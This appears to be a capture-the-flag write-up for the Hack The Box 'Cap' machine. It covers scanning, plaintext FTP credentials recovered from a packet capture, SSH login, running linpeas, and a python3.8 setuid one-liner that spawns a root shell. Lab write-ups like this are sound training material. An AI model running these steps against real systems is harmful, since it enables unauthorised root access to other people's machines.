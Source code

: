 # Solution to CAP Box - Hack The Box

## Connecting to the Machine
1. **Connect with OpenVPN** to the target machine.
2. **Ping the machine** to check connectivity:
   ```bash
   ping <target-ip>
   ```
3. **Scan the machine with Nmap**:
   ```bash
   nmap <target-ip>
   ```

## Finding Vulnerabilities
- **Discovered a website vulnerability** that allows access to `.pcap` files.
- **Analyzed `0.pcap`** and found FTP (File Transfer Protocol) credentials in plaintext:

  **Credentials found:**
  ```
  User: Nathan
  Pass: Buck3tH4TF0RM3!
  ```

## Gaining Access via SSH
1. **Use the credentials to connect via SSH**:
   ```bash
   ssh nathan@<target-ip>
   ```
2. **Transfer `linpeas.sh` to the machine using SCP**:
   ```bash
   scp linpeas.sh nathan@<target-ip>:/home/nathan/
   ```
3. **Run `linpeas.sh`** to check for privilege escalation vectors:
   ```bash
   chmod +x linpeas.sh
   ./linpeas.sh
   ```

## Privilege Escalation
- **Found `/usr/bin/python3.8` marked as high-risk for privilege escalation.**
- **Exploit it using the following command:**
  ```bash
  /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  ```
- **Now running as root!**
- **Navigate to `/root` to retrieve the flag**:
  ```bash
  cat /root/root.txt
  ```

